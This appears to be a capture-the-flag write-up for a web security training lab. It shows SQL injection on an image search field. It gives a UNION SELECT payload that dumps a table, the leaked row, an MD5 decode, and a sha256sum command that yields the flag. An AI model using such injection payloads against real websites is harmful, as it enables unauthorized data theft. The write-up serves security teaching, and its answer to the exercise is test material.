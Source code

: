 # SQL Injection: Searc Images

In the same way as the members page, the search images page has an input field to search for images. Let's do the same process to check if the input is vulnerable to SQL injection. When we list the tables, we can see a `list_images` table with the following columns:
```
comment,title,url,id
```
Now list the rows of the `list_images` table:
```SQL
1 UNION ALL SELECT id, CONCAT(0xa, comment, 0xa, title, 0xa, url) FROM list_images
```
One of the rows is:
```
Title: 
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Hack me ?
borntosec.ddns.net/images.png
Url : 5
```
If we decode `1928e8083cf461a51303633093573c46` in MD5 we get `albatroz`. Then encrypt it with SHA256 and lower all:
```bash
echo -n "albatroz" | sha256sum | cut -d ' ' -f 1
```
We get the flag.